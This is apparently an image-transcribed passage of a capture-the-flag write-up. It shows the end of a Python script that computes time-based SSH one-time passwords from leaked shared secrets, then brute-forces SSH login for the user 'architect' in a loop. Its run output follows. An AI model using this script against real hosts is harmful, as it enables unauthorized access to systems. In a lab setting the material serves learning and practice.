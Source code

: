 ```bash
        UC = CTT ^ random.choice(self.listSecret)

        # hash OTP
        HC = (sha256(repr(UC).encode('utf-8')).hexdigest())

        # HC Truncate
        T = HC[22:44]
        
        SSHOTP = T
        return SSHOTP

    def bruteForceSSH(self, SSHUsername, OTP):
        print(f'_____________________________________________ Trying SSH OTP: {OTP} ...', end='\r')

        sshClient = SSHClient()
        sshClient.set_missing_host_key_policy(AutoAddPolicy())
        try:
            sshClient.connect(self.targetIPAdress, username=SSHUsername, password=OTP, banner_timeout=300)
            return True
        except AuthenticationException:
            # print(f'_____________________________________________ wrong OTP: {OTP}.  :-(')
            pass
        except ssh_exception.SSHException:
            print('_____________________________________________ Attempting to connect ...')

def main():    
    timeSimulatorClient = TimeSimulatorClient(sharedSecret1, sharedSecret2, sharedSecret3, targetIPAdress)

    # Change timezone & sync to the time server
    timeSimulatorClient.setTimeZone()
    timeSimulatorClient.syncTime()

    # Brute forcing SSH with computed OTP
    SSHUsername = 'architect'
    while True:
        OTP = timeSimulatorClient.getOTP()
        bruteForceResult = timeSimulatorClient.bruteForceSSH(SSHUsername, OTP)

        if bruteForceResult is True:
            print(f'_____________________________________________ Found the correct OTP! {SSHUsername}:{OTP}')
            break

if __name__ == '__main__':
    main()
```


```bash
:~/M4tr1xExitDenied# python3 script.py
/usr/lib/python3/dist-packages/paramiko/transport.py:220: CryptographyDeprecationWarning: Blowfish has been deprecated and will be removed in a future release
  "class": algorithms.Blowfish,
_______________  Setting timezone to UTC ....
_______________  Before: 
sudo: unable to resolve host ip-10-201-64-97: Name or service not known
               Local time: Mon 2025-10-13 21:53:57 UTC
           Universal time: Mon 2025-10-13 21:53:57 UTC
                 RTC time: Mon 2025-10-13 21:53:57    
                Time zone: UTC (UTC, +0000)           
System clock synchronized: yes                        
              NTP service: active                     
```